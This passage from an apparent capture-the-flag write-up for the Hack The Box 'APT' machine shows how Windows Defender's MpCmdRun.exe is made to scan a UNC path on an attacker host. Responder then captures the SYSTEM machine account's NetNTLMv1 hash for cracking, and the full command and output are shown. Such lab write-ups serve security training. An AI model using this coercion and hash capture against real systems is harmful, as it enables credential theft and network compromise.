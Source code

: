 # Defender
When running mpscan, defender uses the SYSTEM user, in this case its APT$. If scanning a UNC path we can force system to authenticate to us, which is patched on latest windows. Due to LMCopatibilityLevel being 2 ,  NetNTLMv1 can be used which allows cracking of the hash.

```Bash
*Evil-WinRM* PS C:\Program Files\Windows Defender> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.23\Please\test$
Scan starting...$    
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information$
```
```Bash
┌─[user@parrot-virtual]─[~/htb/apt]$
└──╼ $sudo responder -I tun0 --lm$
                                         __$
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.$
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|$
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|$
                   |__|$
$
           NBT-NS, LLMNR & MDNS Responder 3.0.2.0$
[+] Generic Options:$
    Responder NIC              [tun0]$
    Responder IP               [10.10.14.23]$
    Challenge set              [1122334455667788]$
    Don't Respond To Names     ['ISATAP']$
$
[+] Listening for events...$
[SMB] NTLMv1 Client   : 10.10.10.213$
[SMB] NTLMv1 Username : HTB\APT$$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788$
[*] Skipping previously captured hash for HTB\APT$$
[*] Skipping previously captured hash for HTB\APT$$
[*] Skipping previously captured hash for HTB\APT$$
[*] Skipping previously captured hash for HTB\APT$$
```